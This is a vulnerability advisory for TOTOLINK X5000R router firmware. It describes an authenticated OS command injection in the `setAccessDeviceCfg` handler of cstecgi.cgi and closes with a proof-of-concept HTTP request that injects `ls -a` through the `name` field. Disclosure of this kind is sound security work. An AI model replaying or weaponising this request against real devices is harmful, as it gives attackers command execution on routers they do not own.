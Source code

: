 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setAccessDeviceCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setAccessDeviceCfg` (at 0x4179C0), binary /cgi-bin/cstecgi.cgi. The parameter `modelType`, `name` are passed to 'Uci_Add_List' without any check.
![setAccessDeviceCfg](image.png)
`Uci_Add_List` passes `modelType` and `name` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Add_List calls snprintf to format our param_4 into the string uci -c %s add_list %s.%s.%s=\"%s\.... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uUci_Add_List](image-1.png)
![Uci_Add_List](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 387
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setAccessDeviceCfg", "addEffect": "||wzq", "mac": "wzqwzqwzq", "modelType": "aaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwzaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa", "white": "'wzq", "name": "";`ls -a`"}
```
![alt text](image-3.png)
